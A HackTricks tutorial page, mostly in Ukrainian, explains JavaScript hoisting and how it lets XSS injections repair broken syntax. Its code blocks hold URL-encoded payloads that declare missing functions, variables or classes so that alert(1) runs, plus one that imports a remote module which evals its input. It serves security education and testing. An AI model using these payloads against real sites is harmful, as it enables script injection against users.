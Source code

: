 # JS Hoisting

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

У мові JavaScript описується механізм, відомий як **Hoisting**, де декларації змінних, функцій, класів або імпортів концептуально піднімаються на верхню частину їхньої області видимості перед виконанням коду. Цей процес автоматично виконується движком JavaScript, який проходить через скрипт у кілька проходів.

Під час першого проходу движок аналізує код, щоб перевірити наявність синтаксичних помилок і перетворює його в абстрактне синтаксичне дерево. Ця фаза включає підйом, процес, під час якого певні декларації переміщуються на верхню частину контексту виконання. Якщо фаза парсингу успішна, що вказує на відсутність синтаксичних помилок, виконання скрипту продовжується.

Важливо зрозуміти, що:

1. Скрипт повинен бути вільним від синтаксичних помилок для виконання. Правила синтаксису повинні суворо дотримуватись.
2. Розміщення коду в скрипті впливає на виконання через підйом, хоча виконуваний код може відрізнятися від його текстового представлення.

#### Types of Hoisting

Відповідно до інформації з MDN, існує чотири різні типи підйому в JavaScript:

1. **Value Hoisting**: Дозволяє використовувати значення змінної в її області видимості до рядка декларації.
2. **Declaration Hoisting**: Дозволяє посилатися на змінну в її області видимості до її декларації без виклику `ReferenceError`, але значення змінної буде `undefined`.
3. Цей тип змінює поведінку в межах його області через декларацію змінної до її фактичного рядка декларації.
4. Побічні ефекти декларації відбуваються до того, як буде оцінено решту коду, що її містить.

Докладніше, декларації функцій демонструють поведінку підйому типу 1. Ключове слово `var` демонструє поведінку типу 2. Лексичні декларації, які включають `let`, `const` і `class`, показують поведінку типу 3. Нарешті, оператори `import` є унікальними тим, що вони піднімаються з поведінкою як типу 1, так і типу 4.


## Scenarios

Отже, якщо у вас є сценарії, де ви можете **Inject JS code after an undeclared object** використовується, ви могли б **fix the syntax** шляхом його декларації (щоб ваш код виконувався замість того, щоб викликати помилку):
```javascript
// The function vulnerableFunction is not defined
vulnerableFunction('test', '<INJECTION>');
// You can define it in your injection to execute JS
//Payload1: param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
'-alert(1)-''); function vulnerableFunction(a,b){return 1};

//Payload2: param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
test'); function vulnerableFunction(a,b){ return 1 };alert(1)
```

```javascript
// If a variable is not defined, you could define it in the injection
// In the following example var a is not defined
function myFunction(a,b){
return 1
};
myFunction(a, '<INJECTION>')

//Payload: param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
test'); var a = 1; alert(1);
```

```javascript
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
return 1;
}
alert(1);
```

```javascript
// Properties are not hoisted
// So the following examples where the 'cookie' attribute doesn´t exist
// cannot be fixed if you can only inject after that code:
test.cookie('leo','INJECTION')
test['cookie','injection']
```
## Більше сценаріїв
```javascript
// Undeclared var accessing to an undeclared method
x.y(1,INJECTION)
// You can inject
alert(1));function x(){}//
// And execute the allert with (the alert is resolved before it's detected that the "y" is undefined
x.y(1,alert(1));function x(){}//)
```

```javascript
// Undeclared var accessing 2 nested undeclared method
x.y.z(1,INJECTION)
// You can inject
");import {x} from "https://example.com/module.js"//
// It will be executed
x.y.z("alert(1)");import {x} from "https://example.com/module.js"//")


// The imported module:
// module.js
var x = {
y: {
z: function(param) {
eval(param);
}
}
};

export { x };
```

```javascript
// In this final scenario from https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/
// It was injected the: let config;`-alert(1)`//`
// With the goal of making in the block the var config be empty, so the return is not executed
// And the same injection was replicated in the body URL to execute an alert

try {
if(config){
return;
}
// TODO handle missing config for: https://try-to-catch.glitch.me/"+`
let config;`-alert(1)`//`+"
} catch {
fetch("/error", {
method: "POST",
body: {
url:"https://try-to-catch.glitch.me/"+`
let config;`-alert(1)-`//`+""
}
})
}
```
## References

* [https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios](https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios)
* [https://developer.mozilla.org/en-US/docs/Glossary/Hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting)
* [https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/](https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
